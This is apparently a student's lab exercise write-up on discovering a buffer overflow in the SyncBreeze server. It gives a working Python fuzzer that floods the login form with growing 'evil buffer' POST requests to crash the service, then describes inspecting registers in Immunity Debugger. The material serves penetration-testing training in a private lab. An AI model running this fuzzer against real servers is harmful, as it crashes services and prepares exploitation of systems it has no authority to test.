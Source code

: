 # 11.1.2 Discovering the Vulnerability
## Practice - Discovering the Vulnerability

_(To be performed on your own Kali and Windows lab client machines - Reporting is required for these exercises)_

1.  Build the fuzzer and replicate the SyncBreeze crash.
To start we must first build a fuzzer using python. We can use the following code:
```python
#!/usr/bin/python
import socket
import time
import sys

size = 100

while(size < 2000):
  try:
    print "\nSending evil buffer with %s bytes" % size
    
    inputBuffer = "A" * size
    
    content = "username=" + inputBuffer + "&password=A"

    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.222.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Referer: http://192.168.222.10/login\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "\r\n"
    
    buffer += content

    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(("192.168.222.10", 80))
    s.send(buffer)
    
    s.close()

    size += 100
    time.sleep(10)
    
  except:
    print "\nCould not connect!"
    sys.exit()
```
We must now start the syncbreeze service and attach Immunity Debugger to said service. Once this is done we can begin our fuzzer script, watching the Immunity Debugger window for crashes.



2.  Inspect the content of other registers and stack memory. Does anything seem to be directly influenced by the fuzzing input?